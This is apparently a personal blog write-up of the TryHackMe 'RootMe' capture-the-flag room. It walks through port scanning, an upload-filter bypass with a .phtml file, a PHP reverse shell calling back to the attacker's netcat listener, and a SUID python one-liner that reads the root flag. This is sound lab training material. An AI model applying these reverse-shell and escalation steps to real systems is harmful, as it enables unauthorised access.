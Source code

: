 ```yaml
---
tagline: rootme
title: THM | RootMe 
description: Another THM Privilege Escalation Machine 🔓
banner: /blog/rootmebanner.jpeg/
banner_alt: Root Me Banner (if u find this, send 4533454352234 to me in general to get a pinned message)
date: '2024-02-28'
---
```


## Nmap Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- We know that ports 22 & 80 are open, 22 is running ssh, and 80 is running http with *Apache 2.4.29*.

## Dirsearch

- While the room advises us to utilize *Gobuster*, I will instead use *Dirsearch*.

![Image showing the results of dirsearch](/blog/rootmepics/dirsearch.png 'Fig.1')

- The only hidden directory here is */panel/*

## Obtaining the User Flag

- When accessing */panel/*, we are greeted with a upload panel

![Image showing the upload panel](/blog/rootmepics/uploadpanel.png 'Fig.2')

- We might need to find or create a PHP script to upload. Looking at the hint proves us correct!

- I will be using [this PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for my attack. Make sure to change lines 49 & 50 with your Desired port & IP also change 54 with your desired shell.

``` bash:Terminal
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- My first method of bypassing the php filter did not work (it was \`}filename{\`.png.php) and I was greeted with this.

![Image showing the upload panel angry at me](/blog/rootmepics/phpuploaddenied.png 'Fig.3')

- My next attempt was a .phtml and it uploaded! Make sure to go to */uploads* and click on the PHP script to run. AND I HAVE ACCESS!!!!

```bash:Terminal
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```

- Time to nap nap😴, let me finish this tmrw!

## Getting The Root Flag

- I started by running the command in the hint, with that there were only a select few that were unusual with */usr/bin/python* being one.

- Using [gtfobins file read exploit](https://gtfobins.github.io/gtfobins/python/#file-read) for python we get this.

```bash:Terminal
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

## Closure

Hope you enjoyed this writeup, I enjoyed it very much and found the [Python File read exploit]((https://gtfobins.github.io/gtfobins/python/#file-read)) fun. Feel free to check out more @ other writeups [here](https://www.vipinb.xyz/blog)! 

